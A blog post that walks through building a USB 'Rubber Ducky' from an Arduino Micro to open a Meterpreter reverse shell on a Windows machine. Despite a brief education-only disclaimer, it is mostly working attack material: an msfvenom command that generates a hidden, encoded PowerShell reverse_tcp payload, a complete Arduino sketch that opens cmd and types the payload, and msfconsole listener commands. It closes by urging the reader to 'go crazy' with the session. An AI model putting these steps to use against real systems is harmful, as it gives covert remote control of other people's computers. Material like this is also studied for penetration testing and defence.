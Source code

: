+++
title = "USB Rubber Ducky with Arduino Micro"
date = 2019-03-17T19:28:52+03:00
categories = ["GNULinux"]
+++

***DISCLAIMER:*** *This is merely a proof of concept for education purposes. Use it only against your own networks and devices!*

In this post I will show you how to open a [meterpreter backdoor](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) in a target Windows system using a Arduino Micro acting as a HID keyboard. This attack vector was first developed by the [Hak5](https://shop.hak5.org) community, given the name [Rubber Ducky](https://github.com/hak5darren/USB-Rubber-Ducky/wiki). It basically exploits the fact that some micro-controllers have the capacity to act as a [HID](https://en.wikipedia.org/wiki/Human_interface_device), which you can use to send commands as if they were coming from a plugged in keyboard.

# Requirements

## Metasploit Framework

[Metasploit](https://www.metasploit.com) is a penetration testing framework which we will use to generate the payload, listen to the backdoor and spawn a meterpreter shell on the target system. The site provides various installers for OS X, Windows (32-bit) and Linux, I will be doing this on a Debian Linux system, but there is no reason why it wouldn't work on any other.

## Arduino Micro

[Arduino Micro](https://store.arduino.cc/usa/arduino-micro) is the smallest Arduino board using a micro-controller capable of HID simulation ([ATmega32U4](https://www.microchip.com/wwwproducts/ATmega32u4)) in our case. We will also use the Arduino IDE to program the board.

# Code

## msfvenom

First the will need to generate the things which the Arduino will "type". This will be a `reverse_tcp` payload delivered with a Powershell command. Once in `msfconsole`, you can type

```python
msfvenom -p windows/x64/meterpreter/reverse_tcp -f psh-cmd LPORT=4444 LHOST=YOUR_IP_ADDRESS -o rbr0
```

If the target Windows machine is in your local network, then replace `YOUR_IP_ADDRESS` with your local IP address. If the target machine is outside your network, then you will need to provide your global IP address (try `curl icanhazip.com`). However, this will also require [port forwarding](https://portforward.com) if you are behind a router. I am doing this on a [Google Cloud VM instance](https://cloud.google.com/compute/docs/instances/), so I simply had to setup a firewall rule to allow all incoming `tcp:4444` connections. This command will produce a file named `rbr` with a content similar to:

```c
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -e aQBmACgAWwBJAG ...
```
This command is basically what will allow us to spawn a meterpreter shell in the target system. Now we will have to find a way to "type" it.

## Arduino

The Arduino [Keyboard](https://www.arduino.cc/reference/en/language/functions/usb/keyboard/) library allows one to "send keystrokes to an attached computer through their micro’s native USB port". So our job is to simply save the command as a string and then type it out. However, there is a subtle problem: the command is about 7KB's. The onboard SRAM memory storing the code variables on the ATmega32U4 only has a 2.5 KB capacity. This means we will have to use the onboard flash memory of 32 KB, since the command to be typed out doesn't change. The Arduino IDE provides the keyword [PROGMEM](https://www.arduino.cc/reference/en/language/variables/utilities/progmem/) for this. Data stored in this manner also has its own functions for access, so use caution.

The command is to be written on the Windows Command Prompt, so we will also have to send the keystrokes Windows(❖) + R then type `cmd` then press `ENTER` to get a `cmd` window.

Below is the Arduino sketch that I have come up with:

```Arduino
/*
 *    USB Rubber Ducky with Arduino Micro
 *    
 *    Provided the output of a psh-cmd from msfvenom, this code spawns a meterpreter session in the Windows target machine.
 *    The psh-cmd is stored in the FLASH memory, so the maximum command size is about 28KB in an Arduino Micro.
 *    The whole thing takes about 16 seconds to execute with a command of 7KB.
 *    
 *    Created 17 March 2019
 *    By Mirac L. Gulgonul
 *    
 *    https://mlg556.github.io
 *    
 *    This work is licensed under a Creative Commons Attribution-ShareAlike 3.0 Unported License
 *    https://creativecommons.org/licenses/by-sa/3.0/
 */

#include "Keyboard.h"

const char command[] PROGMEM = {}; // Array pre-allocation on the FLASH memory to store the command.
char chr; // Variable to store the current character of the command.

// The main method, initialises the Keyboard module, opens the Command Prompt and sends the command.
void setup() {
    Keyboard.begin();
    delay(500); // The minimum delay needed.
    cmdOpen();
    typer();
    Keyboard.write(KEY_RETURN);
}

// Does nothing
void loop() {}

// Sends the keystrokes of the psh-command by looping through every character and using Keyboard.write()
void typer() {
    for (int i = 0; i < strlen_P(command); i++) {
        chr = pgm_read_byte_near(command + i);
        Keyboard.write(chr);
    }
}

// Opens the command prompt: hitting Windows+R, typing "cmd" and pressing ENTER.
void cmdOpen() {
    Keyboard.press(KEY_LEFT_GUI);
    Keyboard.press('r');
    delay(30);
    Keyboard.releaseAll();
    delay(100);
    Keyboard.println("cmd");
    Keyboard.write(KEY_RETURN);
    delay(500);
}
```

## msfconsole

Now that the payload is ready to be "typed", we have to be listening to it. In `msfconsole`, type:
```ruby
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
run
```

Now that we are listening, you can finally insert your Arduino/Rubber Ducky to the target machine. If all goes well (my version takes about 16 seconds in total) you will be presented with a meterpreter session. Go crazy with it! (or type `help`).

# Downloads

[rubber.ino](files/rubber.ino)